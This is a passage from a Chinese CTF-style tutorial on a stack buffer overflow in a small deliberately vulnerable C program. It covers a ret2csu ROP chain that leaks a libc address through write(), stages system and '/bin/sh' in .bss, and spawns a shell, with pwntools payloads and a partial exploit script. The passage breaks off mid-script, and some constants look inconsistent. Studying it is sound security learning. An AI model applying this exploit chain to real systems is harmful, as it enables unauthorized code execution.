 &emsp;&emsp;下面我们来看一道题：  

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void vulnerable_function() {
    char buf[128];
    read(STDIN_FILENO, buf, 512);
}

int main(int argc, char** argv) {
    write(STDOUT_FILENO, "Hello, World\n", 13);
    vulnerable_function();
}
```

&emsp;&emsp;乍一看除了write()和read()啥也没有，可以想到应该是libc泄漏，搜了一波发现没啥好用的gadgets，行吧，__libc_csu_init走起。由于write()函数被调用过，所以我们考虑根据write()来计算偏移：  

&emsp;&emsp;我们先构造payload1,利用write()函数来泄漏write自己在内存里的位置，然后返回到程序里，继续覆盖栈上的数据，直到回到main函数来继续进行后续操作：  
```python
#get the address of write
payload1 = 'a'*0x88  + p64(0x4011e2) + p64(0) + p64(1) + p64(write_got) + p64(1) + p64(write_got) + p64(8)
payload1 += p64(0x4011c8) + 'd' * 56 + p64(main)
```

&emsp;&emsp;当我们收到write的地址后，我们便能够计算出system()在内存中的地址了。我们便构造payload2使用read()函数来将算出的system()与/bin/sh写入bss段：  

```python
#get the address of system and bin_sh
payload2 = 'a'*0x88 + p64(0x4011e2) + p64(0) + p64(1) + p64(read_got) + p64(1) + p64(bss) + p64(16) + p64(0x4011c8) + 'd'*56 + p64(main)
```

最后我们构造payload3,调用system()函数执行“/bin/sh”。注意，system()的地址保存在了.bss段首地址上，“/bin/sh”的地址保存在了.bss段首地址+8字节上。 

```python
#activate the system("/bin/sh")
payload3 = 'a'*0x88 + p64(0x4011e2) + p64(0) + p64(1) + p64(bss) + p64(bss+8) + p64(0x4011c8) + 'd' *56 + p64(main)
```

&emsp;&emsp;最终的exp如下：  

```python
from pwn import *

#r12 = ret_addr

#r13 = rdi = arg1   r14 = rsi = arg2    r15 = rdx = arg3

#rbx = 0    rbp = 1

sh = process('./rop_libc1')

elf = ELF('./rop_libc1')
libc = ELF('./libc.so')

main = 0x401153
bss = 0x00000008
read_got = 0x404020

write_got = elf.got['write']
print "write_got= " + hex(write_got)
write_libc = libc.symbols['write']
```
